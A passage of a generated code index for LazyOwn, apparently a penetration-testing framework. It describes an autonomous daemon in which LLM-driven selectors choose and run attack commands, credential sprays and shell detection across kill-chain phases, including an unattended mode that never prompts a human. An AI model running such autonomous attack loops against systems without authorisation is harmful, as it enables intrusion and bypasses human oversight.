Markers go through ``!echo`` (system shell passthrough) because the
LazyOwn shell has no echo verb of its own.*
- `_strip_between_markers` (line 403) `def _strip_between_markers(output, marker)` - *Extract text between marker lines; return raw output when absent.*
- `_daemon_tool` (line 416) `def _daemon_tool(command)` - *Extract the tool name via the typed ToolSet (shlex, LAZY parity).

Falls back to a naive split only when the catalog is unavailable.
Never raises.*
- `_build_default_runner` (line 572) `def _build_default_runner()` - *Return the default CommandRunnerChain (MCP -> PTY fallback).*
- `_run_lazyown` (line 581) `def _run_lazyown(command, timeout)` - *Execute a LazyOwn command using the default runner chain.
Preserved as a module-level function for backward compatibility.*
- `_get_phase_command_catalog` (line 799) `def _get_phase_command_catalog(phase)` - *Return a compact string listing available LazyOwn commands for the given phase.
Used to inject command context into LLM/SWAN prompts so they pick valid abstractions.*
- `_wrap_chain_with_metrics_bias` (line 1202) `def _wrap_chain_with_metrics_bias(selectors, enabled)` - *Wrap every non-fallback selector in :class:`MetricsAwareSelector`.

Args:
    selectors: Composed selector chain in cascade order. The last
        selector that ``isinstance(s, FallbackSelector)`` (or the
        very last entry as a backstop) is left unwrapped so the
        cascade still converges when every other recommendation
        has been filtered.
    enabled: Master switch. When ``False`` the chain is returned
        unchanged.

Returns:
    A new list of selectors with metrics-aware decorators applied
    in front of every wrapped entry. The original list is not
    mutated.*
- `_load_payload` (line 1536) `def _load_payload()` - *Load payload.json, returning empty dict on any error.*
- `_read_recent_csv_commands` (line 1544) `def _read_recent_csv_commands(limit)` - *Return the last N command names from the session CSV log.*
- `_load_campaign_blacklist` (line 1565) `def _load_campaign_blacklist()` - *Load per-context command blacklist from campaign_lessons.jsonl.*
- `_get_campaign_blacklist` (line 1595) `def _get_campaign_blacklist()` - *Return cached campaign blacklist, reloading if the file changed.*
- `_compute_step_reward` (line 1605) `def _compute_step_reward(output, command, phase, success, findings, prev_cmds)` - *Compute multi-dimensional RL reward based on finding quality, novelty, and phase.

Args:
    output:    Raw command output text.
    command:   Command string that was executed.
    phase:     Current engagement phase.
    success:   Basic success flag from keyword detection.
    findings:  Parsed ObsParser findings for this step.
    prev_cmds: Command names from previous steps (for novelty penalty).

Returns:
    Reward scalar in the range [-2.0, 15.0].*
- `_detect_target_os` (line 1678) `def _detect_target_os(target, loop)` - *Infer the target OS from ICMP TTL via a single ping probe.

TTL heuristics (accounting for up to ~20 router hops consumed):
  TTL <= 64   -> Linux / Unix / macOS (default initial TTL = 64)
  TTL <= 128  -> Windows             (default initial TTL = 128)
  TTL > 128   -> Unknown / network device

Returns one of: 'linux', 'windows', 'unknown'.
An unreachable host returns 'unknown' — callers must treat unknown as a
signal to skip OS-specific tooling rather than defaulting to any platform.*
- `_run_objective` (line 1725) `def _run_objective(objective_id, objective_text, target, max_steps, strategy, world_model, obs_parser, facts, loop, planner)` - *Execute an objective autonomously: select commands, run them,
parse output, update world model, and emit events.
Returns the list of StepResult on completion.

The optional planner (modules/planner Planner, default built from
the objective's world model and parser) is the sole intent
generator: each step serves one queued intent, and an empty refill
with unchanged facts ends the objective instead of repeating
fallbacks.*
- `_world_fingerprint` (line 2967) `def _world_fingerprint()` - *Hash the world model file to detect change between wakes.*
- `_current_bridge_phase` (line 2976) `def _current_bridge_phase()` - *Return the current kill-chain phase for bridge suggestions.*
- `_target_services` (line 2989) `def _target_services(target)` - *Extract known service names for a target from the world file.*
- `_tactic_phase` (line 3008) `def _tactic_phase(tactic)` - *Map a planner tactic onto an engage phase identifier.*
- `_ledger_path` (line 3013) `def _ledger_path()` - *Return the intent ledger path, creating its directory.*
- `_ledger_write` (line 3023) `def _ledger_write(engagement_id, intent_id, command, phase, state, reason)` - *Append one intent lifecycle transition. Never raises.*
- `_settle_state` (line 3037) `def _settle_state(result)` - *Map a step result onto a terminal intent state and reason.*
- `_maybe_generate_report` (line 3895) `def _maybe_generate_report()` - *Generate a client-ready report at the end of an auto engagement.

Best-effort: a report failure never fails the engagement, it only
downgrades the returned status. The report is a timestamped Markdown
file written to ``sessions/`` by ``modules.report_generator``.

Returns:
    ``{"generated": True, "path": "..."}`` on success or
    ``{"generated": False, "error": "..."}`` when generation failed.*
- `_engage_run_sync` (line 3921) `def _engage_run_sync(target, max_switches_per_step, auto)` - *Synchronous helper used by all engage entry points.

Args:
    target: IPv4 dotted-quad or hostname to engage.
    max_switches_per_step: Maximum number of fallback tools per phase.
    auto: When True the engagement runs fully unattended. The
        orchestrator is wired with a ``ScopeBoundAutoGate`` (approves
        in-scope steps, denies out-of-scope steps under ``enforce``,
        never prompts a human) and a client-ready report is generated
        once the run completes.

Returns:
    The engagement summary from ``EngageOrchestrator.run()``. When auto
    is True a ``report`` key is added with the report generation status.*
- `mcp_engage_target` (line 3964) `def mcp_engage_target(target, max_switches_per_step, detach, auto)` - *Public MCP / CLI entry point for the engage verb.

Args:
    target: IPv4 dotted-quad or hostname to engage.
    max_switches_per_step: Maximum number of fallback tools per phase.
    detach: When True (default) the orchestrator runs in a background
            thread and the call returns immediately with the engagement
            id; the operator polls progress via lazyown_engage_status.
            When False the call blocks until the kill-chain finishes
            and returns the full summary JSON.
    auto: When True the engagement runs fully unattended. Approval is
            delegated to a ``ScopeBoundAutoGate`` that never prompts a
            human: it approves in-scope steps, denies out-of-scope steps
            when ``scope_enforcement`` is ``enforce`` (the single
            fail-closed safety boundary), and a client-ready report is
            generated when the run finishes.

Returns:
    JSON string with ``engagement_id`` and ``status`` (started|done)
    plus the full result payload when detach is False.*
- `mcp_engage_status` (line 4054) `def mcp_engage_status(last_n)` - *Return the last N lines of sessions/engagement.log plus pending approvals.*
- `mcp_engage_approve` (line 4080) `def mcp_engage_approve(approval_id, decision, operator)` - *Resolve a pending approval. decision must be 'approved' or 'denied'.*
- `mcp_engage_list_pending` (line 4105) `def mcp_engage_list_pending()` - *List every pending approval awaiting an operator decision.*
- `cmd_engage` (line 4123) `def cmd_engage(target, max_switches_per_step, detach)` - *CLI helper bound to the `engage <ip>` daemon subcommand.*
- `_write_status` (line 4151) `def _write_status()` - *Persist current daemon stats to STATUS_FILE.*
- `objective_loop` (line 4162) `def objective_loop(max_steps, loop)` - *Root autonomous loop: takes pending objectives from objectives.jsonl
and executes them without waiting for Claude input between objectives.*
- `world_model_watcher` (line 4305) `def world_model_watcher(loop)` - *Watch world_model.json. When the phase changes, new hosts appear,
new service versions are found, or active beacons are detected,
auto-inject derived objectives.*
- `heartbeat_loop` (line 4490) `def heartbeat_loop()` - *Emit heartbeat and write status every HEARTBEAT_S seconds.*
- `_main_async` (line 4538) `def _main_async(max_steps)`
- `_write_pid` (line 4589) `def _write_pid()`
- `_clear_pid` (line 4594) `def _clear_pid()`
- `_read_pid` (line 4599) `def _read_pid()`
- `_is_running` (line 4606) `def _is_running()`
- `cmd_run` (line 4617) `def cmd_run(max_steps)` - *Run daemon in foreground (debug mode).*
- `cmd_start` (line 4626) `def cmd_start(max_steps)` - *Fork, detach, and run daemon in background.*
- `cmd_stop` (line 4656) `def cmd_stop()` - *Send SIGTERM to the running daemon.*
- `cmd_status` (line 4673) `def cmd_status()` - *Print current daemon status to stdout.*
- `cmd_inject` (line 4689) `def cmd_inject(text, priority)` - *Inject an objective from the CLI, split into verifiable sub-goals.*
- `mcp_autonomous_start` (line 4723) `def mcp_autonomous_start(max_steps, backend)` - *Start the autonomous daemon in a background thread (for MCP calls).*
- `mcp_autonomous_stop` (line 4765) `def mcp_autonomous_stop()` - *Stop the autonomous daemon.*
- `mcp_autonomous_status` (line 4781) `def mcp_autonomous_status()` - *Current daemon state: objectives, steps, drones, phase.*
- `mcp_autonomous_inject` (line 4794) `def mcp_autonomous_inject(text, priority, target)` - *Inject an objective into the daemon queue and into sessions/tasks.json.*
- `mcp_autonomous_events` (line 4838) `def mcp_autonomous_events(last_n)` - *Read the last N events from autonomous_events.jsonl.*
- `_dispatch_pipeline` (line 4869) `def _dispatch_pipeline(args)` - *Daemon-side pipeline subcommand handler.

Lazy-imports modules.pipeline_engine so the daemon starts even when
PyYAML is missing in non-pipeline workflows.*
- `_worker` (line 4018) `def _worker()`
- `_run` (line 4737) `def _run()`
- `_ask_via` (line 885) `def _ask_via(_backend, _goal, _key)`

**Methods:**
- `run` (line 385) `def run(self, command, timeout)` - *Execute command within timeout seconds. Return text output.*
- `name` (line 390) `def name(self)` - *Human-readable identifier for this runner.*
- `name` (line 441) `def name(self)`
- `run` (line 444) `def run(self, command, timeout)` - *Try to import and call the MCP runner. Raises ImportError on failure.*
- `name` (line 461) `def name(self)`
- `run` (line 464) `def run(self, command, timeout)` - *Execute command via PTY. Returns cleaned text output.*
- `__init__` (line 551) `def __init__(self, runners)`
- `name` (line 557) `def name(self)`
- `run` (line 560) `def run(self, command, timeout)` - *Try each runner in sequence. Return first successful output.*
- `select` (line 648) `def select(self, target, phase, context)` - *Return a CommandDecision or None if this selector has no suggestion.*
- `__init__` (line 663) `def __init__(self, reactive_engine)`
- `register_output` (line 667) `def register_output(self, output, command, platform)` - *Feed reactive engine with last command output to generate new decisions.*
- `select` (line 694) `def select(self, target, phase, context)` - *Pop and return the pending reactive decision if present.*
- `__init__` (line 709) `def __init__(self, pdb, fail_counts)`
- `select` (line 713) `def select(self, target, phase, context)` - *Return the most-frequent successful command for this phase.*
- `_parquet_candidate` (line 726) `def _parquet_candidate(self, category, target)`
- `__init__` (line 755) `def __init__(self, dispatcher, fail_counts)`
- `select` (line 759) `def select(self, target, phase, context)` - *Return a bridge catalog suggestion for this phase.*
- `_bridge_candidate` (line 770) `def _bridge_candidate(self, phase, services, tag, os_hint)`
- `select` (line 825) `def select(self, target, phase, context)` - *Return an LLM-suggested command with catalog context, or None if disabled.*
- `_llm_candidate` (line 831) `def _llm_candidate(self, target, phase, context)`
- `select` (line 947) `def select(self, target, phase, context)` - *Ask the best MoE expert for a command recommendation. Returns None if disabled.*
- `_swan_candidate` (line 953) `def _swan_candidate(self, target, phase, context)`
- `select` (line 993) `def select(self, target, phase, context)` - *Return the static fallback command for this phase. Never returns None.*
- `__init__` (line 1030) `def __init__(self, wrapped, metrics_source, min_success_rate, min_attempts, window_seconds, cache_ttl_s, clock)` - *Initialise the decorator.

Args:
    wrapped: The selector whose decisions may be filtered.
    metrics_source: Object exposing ``summarize(window_seconds)``.
        Defaults to :func:`modules.metrics.get_recorder` resolved
        lazily on first use so the module remains importable
        without the metrics package present.
    min_success_rate: Inclusive lower bound on ``success_rate``;
        values strictly below this are considered failing.
    min_attempts: Minimum number of recorded attempts before a
        command can be filtered. Avoids over-reacting to a
        single failure.
    window_seconds: Aggregation window forwarded to
        ``summarize``. Set to ``0`` or a negative value to
        aggregate the whole log.
    cache_ttl_s: Time-to-live for the in-memory summary cache.
        Repeated calls within the TTL reuse the cached
        aggregate to avoid re-reading the JSONL log every
        step.
    clock: Callable returning the current monotonic time.
        Injected in tests; defaults to :func:`time.monotonic`.*
- `wrapped` (line 1076) `def wrapped(self)` - *Return the underlying selector for introspection in tests.*
- `_resolve_source` (line 1081) `def _resolve_source(self)` - *Return the metrics source, resolving the singleton on first use.

Returns:
    The configured metrics source, or ``None`` when the metrics
    module cannot be imported (the decorator then degrades to a
    transparent pass-through).*
- `_current_summary` (line 1108) `def _current_summary(self)` - *Return a fresh or cached summary dictionary.

Returns:
    The ``by_command`` section of the summary, or an empty dict
    when no metrics source is available.*
- `_should_skip` (line 1138) `def _should_skip(self, command)` - *Decide whether *command* should be filtered out.

Args:
    command: First token of the proposed command.

Returns:
    ``(skip, stats)`` — ``skip`` is ``True`` when the command
    should be filtered; ``stats`` carries the underlying
    count and success rate when available, for telemetry.*
- `select` (line 1162) `def select(self, target, phase, context)` - *Honour the :class:`ICommandSelector` contract.

Delegates to the wrapped selector. When the proposed command
fails the success-rate gate, returns ``None`` and emits a
``METRICS_BIAS_SKIP`` event so the rejection is auditable.*
- `__init__` (line 1263) `def __init__(self, fail_counts)`
- `select` (line 1267) `def select(self, target, phase, context)` - *Return a spray command when credentials + matching service are available.*
- `__init__` (line 1303) `def __init__(self, selectors)`
- `next_command` (line 1306) `def next_command(self, target, phase, context)` - *Try each selector in order. The FallbackSelector ensures a result.*
- `__init__` (line 1341) `def __init__(self, runner, selectors)`
- `register_output` (line 1368) `def register_output(self, output, command, platform, success)` - *Feed the reactive selector with the last command output.*
- `next_command` (line 1382) `def next_command(self, target, phase, services, os_hint)` - *Select the next command for target/phase using the cascade.*
- `handle` (line 1416) `def handle(self, objective_id, objective_text, target, context)` - *Execute objective and return a list of step results.*
- `__init__` (line 1438) `def __init__(self, strategy, max_steps, world_model, obs_parser, facts, loop)`
- `handle` (line 1454) `def handle(self, objective_id, objective_text, target, context)` - *Synchronous entry point. Delegates to _run_sync.*
- `run_async` (line 1464) `def run_async(self, objective_id, objective_text, target)` - *Asyncio entry point used by objective_loop.*
- `_run_sync` (line 1484) `def _run_sync(self, objective_id, objective_text, target)` - *Run the async coroutine synchronously (for testing / non-async callers).*
- `__init__` (line 2773) `def __init__(self)`
- `process_findings` (line 2778) `def process_findings(self, findings, target, objective_id, payload_key)` - *Launch drones for relevant findings. Returns list of drone_ids.*
- `did_switch` (line 3079) `def did_switch(self)` - *True when the orchestrator used a fallback tool.*
- `next_tool` (line 3088) `def next_tool(self, failed_command, phase, attempt)` - *Return the next candidate command or None when exhausted.*
- `next_tool` (line 3105) `def next_tool(self, failed_command, phase, attempt)`
- `__init__` (line 3127) `def __init__(self, dispatcher)`
- `_candidates` (line 3132) `def _candidates(self, primary, phase)`
- `next_tool` (line 3152) `def next_tool(self, failed_command, phase, attempt)`
- `__init__` (line 3179) `def __init__(self, narrator)`
- `poll` (line 3184) `def poll(self, target)` - *Return the newly-detected client_ids since the previous poll.*
- `detect_in_output` (line 3225) `def detect_in_output(self, output, target)` - *Return True when a shell/root-shell signal appears in command output.*
- `__init__` (line 3271) `def __init__(self, target, runner, narrator, approval_gate, fallback_resolver, shell_detector, plan, max_switches_per_step, safety_guard)`
- `engagement_id` (line 3316) `def engagement_id(self)` - *Stable id for this engagement (correlates events in logs).*
- `run` (line 3320) `def run(self)` - *Drive the full plan against the configured target.

Returns a summary dict with the engagement_id, target, per-step
results, switch counts, and the final shell-obtained flag.*
- `_run_planner_intents` (line 3479) `def _run_planner_intents(self, results, fp_before, max_intents, planner)` - *Execute planner-driven extra intents when the world changed.

This is the event-driven wake: the fixed plan is one round, and a
changed world wakes the planner for 0..N fresh intents mapped to
LazyOwn verbs through the bridge catalog (MITRE-aligned). An
unchanged world or an empty refill narrates NO_NEW_DIRECTION and
adds nothing. Returns True when a shell was obtained.*
- `_planner_fallback_verb` (line 3598) `def _planner_fallback_verb(self, tried)` - *Suggest one bridge command without a MITRE hint.

Used only when the planner emits zero intents on a changed
world: the engagement must still push forward. Returns None
when the catalog has nothing new.*
- `_run_step` (line 3622) `def _run_step(self, step)` - *Execute one phase step with approval, fallback, and narration.*
- `_consult_gate` (line 3842) `def _consult_gate(self, step)` - *Ask the ApprovalGate; return None if no gate is wired.*
- `_execute` (line 3857) `def _execute(self, command, timeout_s)` - *Run command via the shell, injecting target into payload first.*
- `_step_succeeded` (line 3863) `def _step_succeeded(command, output)` - *Heuristic success check — failure markers win (LAZY-style).*

#### `autonomous_replay.py`
**Path:** `skills/autonomous_replay.py`
**File Doc:** *Deterministic replay of past autonomous-daemon runs.  The autonomous daemon (``skills/autonomous_daemon.py``) emits structured events to ``sessions/autonomous_events.jsonl``. This module reads that log back and reproduces the recorded decision sequence in two flavours:  * ``trace`` — pure analysis, no command is re-executed. The recorded decisions are validated against the deterministic ``decision_seed`` stored with each ``STEP_START`` event, surfacing any divergence (for example a selector chain that was edited between the original run and the replay attempt). * ``execute`` — same sequence, but each recorded command is rerun through the existing :class:`ICommandRunner` chain so the operator can compare current output against the recorded snippet. The runner chain is **the same** the live daemon uses, so the harness layers (permissions, hooks) still apply.  Replay never bypasses the operator approval flow; it stops at the same checkpoints the live daemon would.*

**Classes:**
- `ReplayStep` (line 53) `class ReplayStep` - *One reproduced decision in a replay run.

Attributes:
    event_id: ``id`` of the source ``STEP_START`` event.
    step: Step counter inside the parent objective.
    objective_id: Identifier of the parent objective.
    command: Command that was recorded.
    source: Name of the selector that produced the decision.
    reason: Free-form rationale recorded by the daemon.
    recorded_decision_seed: Decision seed stored at recording time.
    replayed_success: ``None`` in trace mode, ``True``/``False``
        once :meth:`ReplayDispatcher.execute` has run the command.
    replayed_output_snippet: Trimmed output from the replayed run,
        ``None`` in trace mode.*
- `ReplayDivergence` (line 82) `class ReplayDivergence` - *Marker emitted when a replayed step does not match the recording.*
- `ReplayReport` (line 93) `class ReplayReport` - *Final outcome of a :class:`ReplayDispatcher` call.

Attributes:
    mode: ``"trace"`` or ``"execute"``.
    events_seen: Total ``STEP_START`` events considered, before any
        filtering.
    from_event_id: Inclusive lower bound used during the run.
    to_event_id: Inclusive upper bound used during the run.
    steps: Reproduced steps, in chronological order.
    divergences: Detected divergences (empty when the recording is
        consistent).*
- `EventLogReader` (line 127) `class EventLogReader` - *Parse ``autonomous_events.jsonl`` into in-memory events.

Malformed lines are skipped with a debug log entry so a single
truncated line never blocks an entire replay. The reader does not
perform any filtering on its own; slicing by event id lives in
:class:`ReplayDispatcher`.*
- `ReplayDispatcher` (line 212) `class ReplayDispatcher` - *Drive a replay run over a parsed event log.

Depends on a :class:`EventLogReader` for input and (in execute
mode) on a runner exposing a ``run(command, timeout) -> str``
interface compatible with
:class:`skills.autonomous_daemon.ICommandRunner`.*

**Functions:**
- `replay` (line 473) `def replay(from_event_id, to_event_id, mode, events_path, runner, timeout)` - *Convenience entry point used by the MCP tool layer.

Args:
    from_event_id: Inclusive lower bound on event id.
    to_event_id: Inclusive upper bound on event id.
    mode: ``"trace"`` (default) or ``"execute"``.
    events_path: Override for the JSONL source file. Defaults to
        :data:`DEFAULT_EVENTS_FILE`.
    runner: Optional runner injection used only in ``"execute"`` mode.
    timeout: Per-command timeout in seconds, ``"execute"`` mode only.

Returns:
    Serialised :class:`ReplayReport` dictionary.

Raises:
    ValueError: If *mode* is not one of :data:`SUPPORTED_REPLAY_MODES`.*

**Methods:**
- `to_dict` (line 114) `def to_dict(self)` - *Return the report as a JSON-serialisable dictionary.*
- `__init__` (line 136) `def __init__(self, path)` - *Initialise the reader.

Args:
    path: Source JSONL file. Defaults to
        :data:`DEFAULT_EVENTS_FILE`.*
- `path` (line 147) `def path(self)` - *Return the source path.*
- `read` (line 152) `def read(self)` - *Return every event in the log, oldest first.

Returns:
    A list of decoded events. Empty when the file does not
    exist or cannot be read.*
- `slice` (line 177) `def slice(self, events, from_event_id, to_event_id)` - *Return the inclusive subrange of *events* by ``id``.

Args:
    events: Source list as returned by :meth:`read`.
    from_event_id: Inclusive lower bound. ``None`` keeps the
        beginning of the log.
    to_event_id: Inclusive upper bound. ``None`` keeps the end
        of the log.

Returns:
    A subrange of *events*. When both bounds are ``None`` the
    input list is returned unchanged.*
- `__init__` (line 221) `def __init__(self, reader, seed_fn)` - *Initialise the dispatcher.

Args:
    reader: Source reader. Defaults to a fresh
        :class:`EventLogReader` against
        :data:`DEFAULT_EVENTS_FILE`.
    seed_fn: Decision-seed function. Defaults to
        :func:`autonomous_daemon.compute_decision_seed`. Injected
        in tests.*
- `_default_seed_fn` (line 241) `def _default_seed_fn()` - *Resolve the canonical decision-seed implementation.

Returns:
    The :func:`compute_decision_seed` from
    :mod:`skills.autonomous_daemon`. A no-op function is
    returned when the module cannot be imported (for example
    in stand-alone unit tests of this module).*
- `_collect_step_events` (line 261) `def _collect_step_events(self, from_event_id, to_event_id)` - *Return ``(events_seen, step_events_in_range)``.

Args:
    from_event_id: Inclusive lower bound by event id.
    to_event_id: Inclusive upper bound by event id.*
- `_build_step` (line 278) `def _build_step(self, event, divergences)` - *Convert a ``STEP_START`` event into a :class:`ReplayStep`.

Args:
    event: Raw event dictionary.
    divergences: Mutable accumulator for divergence markers.

Returns:
    A populated :class:`ReplayStep`, or ``None`` when the event
    payload is missing required fields.*
- `trace` (line 325) `def trace(self, from_event_id, to_event_id)` - *Replay the recorded decision sequence without executing it.

Args:
    from_event_id: Inclusive lower bound on event id.
    to_event_id: Inclusive upper bound on event id.

Returns:
    A :class:`ReplayReport` populated with one step per
    ``STEP_START`` event in the requested range.*
- `execute` (line 357) `def execute(self, from_event_id, to_event_id, runner, timeout)` - *Replay the recorded sequence and re-run each command.

Args:
    from_event_id: Inclusive lower bound on event id.
    to_event_id: Inclusive upper bound on event id.
    runner: Runner exposing ``run(command, timeout) -> str``.
        Defaults to the same chain
        :class:`skills.autonomous_daemon.CommandRunnerChain`
        uses live, so the harness layers (permissions, hooks)
        still apply.
    timeout: Per-command timeout in seconds.

Returns:
    A :class:`ReplayReport` whose steps carry the freshly
    captured output snippets and a recomputed success flag.*
- `_default_runner` (line 413) `def _default_runner()` - *Build the same runner chain the live daemon uses.

Returns:
    A :class:`CommandRunnerChain` composed of the MCP and PTY
    runners, falling back to a stub that raises when the daemon
    module is not importable.

Raises:
    ImportError: If the daemon module is not importable in the
        current environment and no runner was injected.*
- `_invoke_runner` (line 441) `def _invoke_runner(runner, command, timeout)` - *Run *command* through *runner* and report success heuristically.

Args:
    runner: Object exposing ``run(command, timeout) -> str``.
    command: Command line to execute.
    timeout: Timeout in seconds.

Returns:
    ``(output_text, success_bool)``.*

#### `__init__.py`
**Path:** `skills/claude_md_orchestrator/__init__.py`
**File Doc:** *Public API for the claude_md_orchestrator skill.  The package re-exports the classes and the helper functions the CLI and the tests share. The orchestrator module owns the public entry point. The agents stay private to the package so callers depend on the orchestrator instead of the implementation detail.*

*No symbols extracted*

#### `bdd_agent.py`
**Path:** `skills/claude_md_orchestrator/bdd_agent.py`
**File Doc:** *Behavior-Driven Development agent.  The agent reads the spec and the failing tests the tdd agent produced. The agent writes the implementation that satisfies the tests. The cycle halts at green. The agent will not advance to the next stage until pytest reports pass for every test the tdd agent wrote.  The implementation is a single self contained module per contract. The module exposes a ``run`` function that returns the string ``ok`` on the happy path and a ``handle_sad_NN`` function per sad path that returns the string ``handled``. The shape mirrors what the tdd agent imports so the two agents never disagree.*

**Classes:**
- `BddResult` (line 113) `class BddResult` - *Outcome of running the implementation agent.

Attributes:
    source_path: Absolute path of the implementation module the
        agent wrote.
    findings: DoD findings the agent collected.
    green: True when pytest reported pass for every new test.
    duration_seconds: Wall clock duration of the pytest run.*

**Functions:**
- `_module_name` (line 80) `def _module_name(contract)` - *Return the python module name the implementation will use.*
- `_module_path` (line 85) `def _module_path(contract, config)` - *Return the absolute path of the implementation module.*
- `_package_init` (line 90) `def _package_init(config)` - *Return the absolute path of the implementation package init file.*
- `_compose_implementation` (line 95) `def _compose_implementation(spec, contract)` - *Render the python source of the implementation module.*
- `_ensure_init` (line 130) `def _ensure_init(config)` - *Write the package init file the tests import from.*
- `_run_pytest` (line 138) `def _run_pytest(test_path, cwd)` - *Run pytest and return the exit code plus the duration.*
- `run` (line 151) `def run(contract, spec, suite, config)` - *Run the implementation agent for one contract.

Args:
    contract: The contract the spec implements.
    spec: The spec the implementation satisfies.
    suite: The TestSuite the tdd agent produced.
    config: Active runtime configuration.
Returns:
    The result the orchestrator persists. The green flag is True
    when pytest reported pass for every new test. The orchestrator
    advances only when green is True.*

#### `boy_scout.py`
**Path:** `skills/claude_md_orchestrator/boy_scout.py`
**File Doc:** *Boy Scout refactor pass.  The pass runs after the green stage. The pass scans the artifacts the bdd agent produced for tech debt and security gaps the DoD validators catch. The pass generates a fix plan and writes a refactor proposal the operator can review. The pass never mutates source by itself; the operator is the only one who applies the fix.  The pass is intentionally narrow. The DoD is enforced by the reviewer. The boy scout pass focuses on the cleanup that does not change behaviour: removed unused imports, deduplicated literals, and the documentation drift.*

**Classes:**
- `ScoutReport` (line 30) `class ScoutReport` - *Outcome of a boy scout pass.

Attributes:
    contract_id: Identifier of the contract the pass ran for.
    findings: Findings the pass collected.
    proposal: Free form text the operator can read before
        applying the refactor.*

**Functions:**
- `_inspect` (line 45) `def _inspect(path)` - *Run a deeper inspection on one source file.*
- `_render_proposal` (line 73) `def _render_proposal(contract, findings)` - *Render the human facing proposal text.*
- `run` (line 90) `def run(state, config)` - *Run the boy scout pass for one contract.

Args:
    state: Per contract state the pass reads the artifacts from.
    config: Active runtime configuration.
Returns:
    The structured report the orchestrator persists.*
- `write_report` (line 110) `def write_report(report, config)` - *Persist the boy scout proposal to disk.*

#### `cicd_agent.py`
**Path:** `skills/claude_md_orchestrator/cicd_agent.py`
**File Doc:** *CI and CD agent.  The agent cuts a feature branch, stages the artifacts, prepares the CI pipeline, and writes the PR body. The agent never pushes and never deploys. The deploy gate is closed by default. The orchestrator only opens the gate when the operator supplies the deploy gate token.  The pipeline file is a real GitHub Actions workflow. The agent keeps the workflow minimal and explicit. The workflow runs ruff, mypy, bandit, and pytest. The workflow fails when any of those return a non zero exit code. The agent does not invent matrix builds or release pipelines. The skill stays portable across LazyOwn releases.*

**Classes:**
- `CicdResult` (line 71) `class CicdResult` - *Outcome of the CI and CD agent.

Attributes:
    branch: Name of the feature branch the agent cut.
    pipeline_path: Absolute path of the workflow file.
    pr_body_path: Absolute path of the PR body file.
    deployed: True when the deploy gate was open and the agent
        ran the deploy command. The default leaves the gate
        closed.
    findings: DoD findings the agent collected.*

**Functions:**
- `_slug` (line 91) `def _slug(contract)` - *Return a safe slug for the branch name.*
- `_git` (line 97) `def _git()` - *Run a git command and return the captured output.*
- `_ensure_branch` (line 108) `def _ensure_branch(contract, config)` - *Create the feature branch from the base branch.

Args:
    contract: The contract the branch will carry.
    config: Active runtime configuration.
Returns:
    The branch name the agent cut.*
- `_render_pipeline` (line 134) `def _render_pipeline(contract, spec, config)` - *Render the workflow body the agent writes to disk.*
- `_render_pr_body` (line 144) `def _render_pr_body(contract, spec, report)` - *Render the PR body the agent writes to disk.*
- `run` (line 177) `def run(contract, spec, report, config)` - *Run the CI and CD agent for one contract.

Args:
    contract: The contract the cycle finished.
    spec: The spec the implementation satisfies.
    report: The review report. The agent only ships when the
        report is approved.
    config: Active runtime configuration.
    auto_commit: When True the agent stages the artifacts and
        commits them on the feature branch. The default keeps
        the operator in control of the commit boundary.
    deploy_token: Shared secret the agent checks before it runs
        any deploy command. The gate is closed when the value is
        None or empty.
Returns:
    The result the orchestrator persists. The deployed flag is
    always False in the default posture.*

#### `config.py`
**Path:** `skills/claude_md_orchestrator/config.py`
**File Doc:** *Centralized configuration for the claude_md_orchestrator skill.  The orchestrator reads every runtime value from this module. Tests and runtime both consume the same dataclass. The defaults point to a local run directory inside the skill so a fresh checkout is runnable without external state. The orchestrator may override any field at construction time.*

**Classes:**
- `Config` (line 67) `class Config` - *Runtime configuration for the orchestrator.

Attributes:
    repo_root: Absolute path of the LazyOwn repository.
    run_dir: Absolute path of the working directory for the active
        cycle. The orchestrator creates the subdirectories specs,
        tests, src, review, docs, and logs under this root.
    claude_md_path: Absolute path of the markdown file the parser
        consumes.
    base_branch: Branch from which the cicd agent cuts the feature
        branch. The default follows the LazyOwn branching model.
    feature_branch_prefix: Prefix the cicd agent prepends to every
        feature branch it cuts.
    max_sad_paths: Minimum number of sad paths the spec writer must
        document. The DoD enforces six.
    test_min_red_seconds: Lower bound the orchestrator enforces on
        the red stage so a flaky runner cannot race through.
    reviewer_strict: When True the reviewer treats every warning as
        a blocker. When False the reviewer reports non blockers and
        lets the operator decide.
    llm_backend: Identifier of the LLM backend the agents use. The
        value comes from the LazyOwn llm_factory module when
        available. The orchestrator falls back to the mock template
        engine when the value is empty or unknown.
    deploy_gate_token: Shared secret the cicd agent checks before it
        calls any deploy tool. The orchestrator reads the value from
        the LAZYOWN_DEPLOY_GATE_TOKEN environment variable. A
        missing token keeps the gate closed by design.
    verbose: When True the orchestrator prints a stage banner to
        stderr after every transition.*

**Functions:**
- `_repo_root` (line 22) `def _repo_root()` - *Return the absolute path of the LazyOwn repository root.

The skill lives at skills/claude_md_orchestrator/. The repository root
is two parents above the package directory. The orchestrator may
override this value through the LAZYOWN_REPO_ROOT environment variable
so the same code runs in CI and in a developer checkout.*
- `_default_run_dir` (line 37) `def _default_run_dir()` - *Return the absolute path of the orchestrator run directory.

The directory holds specs, tests, sources, reviews, docs, and the
cycle state file. The path is computed from the repository root so
the skill stays portable across checkouts. The orchestrator may
override the value through the LAZYOWN_ORCH_RUN_DIR environment
variable.*
- `_default_claude_md` (line 52) `def _default_claude_md()` - *Return the absolute path of the CLAUDE.md that the parser consumes.

The default points at the canonical LazyOwn CLAUDE.md. The orchestrator
may override the value through the LAZYOWN_CLAUDE_MD_PATH environment
variable so the same skill can drive a feature on any markdown file
that follows the same shape.*
- `load_config` (line 155) `def load_config()` - *Build a Config from environment variables and return it.

The function never mutates global state. It exists so the test
suite and the CLI entry point share the same resolution path.*
- `resolve_optional` (line 164) `def resolve_optional(config, key)` - *Return the environment value for a key or None when missing.

The helper keeps the call sites free of repeated os.environ lookups
so the production code reads as a single conditional.*

**Methods:**
- `ensure` (line 112) `def ensure(self)` - *Create the run subdirectories if they do not exist.

The orchestrator calls this method before it dispatches the
first agent so downstream agents can write without checking the
filesystem.*
- `state_path` (line 122) `def state_path(self)` - *Return the absolute path of the cycle state file.*
- `specs_dir` (line 126) `def specs_dir(self)` - *Return the absolute path of the spec directory.*
- `tests_dir` (line 130) `def tests_dir(self)` - *Return the absolute path of the test directory.*
- `src_dir` (line 134) `def src_dir(self)` - *Return the absolute path of the implementation directory.*
- `review_dir` (line 138) `def review_dir(self)` - *Return the absolute path of the review directory.*
- `docs_dir` (line 142) `def docs_dir(self)` - *Return the absolute path of the documentation directory.*
- `logs_dir` (line 146) `def logs_dir(self)` - *Return the absolute path of the log directory.*
